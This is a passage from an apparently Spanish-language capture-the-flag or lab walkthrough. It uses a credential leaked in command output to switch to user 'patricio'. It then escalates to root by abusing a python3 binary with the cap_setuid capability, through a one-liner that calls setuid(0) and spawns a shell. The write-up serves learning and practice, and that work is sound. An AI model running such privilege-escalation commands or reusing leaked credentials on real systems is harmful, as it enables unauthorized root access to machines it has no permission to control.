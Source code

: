 Info:

```
# should be on the output of commands, not on the prompt patricio:Jap0n16ydcbd***
```

Por lo que vemos nos muestra las credenciales del usuario `patricio`, por lo que escalaremos a el de la siguiente forma:

```shell
su patricio
```

Metemos comocontraseña `Jap0n16ydcbd***` y ya seremos dicho usuario.

## Escalate Privileges

Si vemos las `capabilities` que tenemos con el usuario, veremos lo siguiente:

```shell
getcap -r / 2>/dev/null
```

Info:

```
/home/patricio/.ssh/python3 cap_setuid=ep
```

Por lo que haremos lo siguiente:

```shell
/home/patricio/.ssh/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

Info:

```
# whoami
root
#
```

Y con esto ya seremos `root`.
